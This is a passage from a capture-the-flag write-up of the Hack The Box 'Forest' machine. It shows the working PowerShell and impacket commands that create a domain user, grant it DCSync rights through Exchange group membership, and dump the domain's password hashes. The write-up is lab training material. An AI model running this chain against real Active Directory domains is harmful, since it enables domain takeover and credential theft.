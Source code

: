However, this returns the following error:

![user4](./forest/user4.png)

Even though the `svc-alfresco` is in the `Exchange Trusted Subsystem` group, the command is failing? Try making a new user and using that account:

```powershell
net user bubba gump123! /add /domain
net group "Exchange Trusted Subsystem" bubba /add /domain
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bubba -Rights DCSync -Verbose
```

But this has the same error?? Try manually creating the credential object in PowerShell:

```powershell
$pass = ConvertTo-SecureString 'gump123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\bubba',$pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bubba -Rights DCSync -Verbose
```

And this finally works:

- **NOTE:** It still could not work for the `svc-alfresco` account though... Further research showed that the issue was due to LDAP re-binding. Basically refreshing the session as `svc-alfresco` in order to load the new permissions before trying to add DCSync. **However**, there was also a script on the target at `C:\users\administrator\documents\revert.ps1`, which was reverting accounts and removing DCSync rights every 60 seconds. This is why creating a new user worked well.

![user5](./forest/user5.png)

With this, it is possible to dump the hashes on the system from Kali:

```bash
impacket-secretsdump htb.local/bubba:'gump123!'@10.10.10.161
```
